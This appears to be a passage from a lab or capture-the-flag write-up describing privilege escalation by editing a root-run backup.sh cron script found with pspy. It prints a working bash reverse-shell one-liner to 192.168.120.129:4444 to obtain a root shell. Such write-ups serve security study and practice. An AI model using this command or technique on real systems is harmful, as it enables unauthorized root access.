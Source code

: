 There is a suspicious backup.sh folder in `/home/grimmie`

After getting pspy on the server and running it, we see that backup.sh is being run by root periodically. 

We can edit backup.sh as grimmie to send a reverse shell to us by adding this line to backup.sh


`bash -c 'exec bash -i &>/dev/tcp/192.168.120.129/4444 <&1'`


Set up a listener on our side and wait to get root shell
